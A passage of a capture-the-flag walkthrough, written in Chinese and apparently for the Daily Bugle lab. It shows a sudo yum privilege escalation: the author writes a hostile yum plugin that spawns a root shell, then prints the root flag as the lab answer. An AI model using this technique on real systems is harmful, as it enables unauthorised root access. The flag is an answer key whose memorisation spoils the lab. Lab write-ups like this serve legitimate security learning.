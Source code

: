 #通过sudo -l 发现yum命令无需密码就可以用root身份运行
```
[jjameson@dailybugle ~]$ sudo -l
匹配 %2$s 上 %1$s 的默认条目：
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

用户 jjameson 可以在 dailybugle 上运行以下命令：
    (ALL) NOPASSWD: /usr/bin/yum
```


#根据https://gtfobins.github.io/gtfobins/yum/这里的b方法拿到root权限
```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ echo 'id' > $TF/x.sh
[jjameson@dailybugle ~]$ fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
-bash: fpm: 未找到命令
[jjameson@dailybugle ~]$ at >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
-bash: at: 未找到命令
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
已加载插件：y
没有匹配 y 的插件
sh-4.2# id
uid=0(root) gid=0(root) 组=0(root)
sh-4.2# cat /root/root.txt 
eec3d53292b1821868266858d7fa6f79
sh-4.2# 
```

#拿到root.txt
```
question:What is the root flag?
answer:eec3d53292b1821868266858d7fa6f79
```